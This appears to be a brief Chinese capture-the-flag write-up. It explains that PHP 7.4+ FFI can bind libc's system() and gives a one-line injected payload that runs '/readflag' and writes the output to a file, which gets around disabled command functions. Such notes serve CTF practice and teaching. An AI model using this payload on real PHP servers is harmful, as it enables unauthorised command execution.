

# 知识点
FFI，php7.4以上才有<br /> [https://www.php.net/manual/zh/ffi.cdef.php](https://www.php.net/manual/zh/ffi.cdef.php)<br /> [https://www.php.cn/php-weizijiaocheng-415807.html](https://www.php.cn/php-weizijiaocheng-415807.html)
# 思路
```php
c=$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```

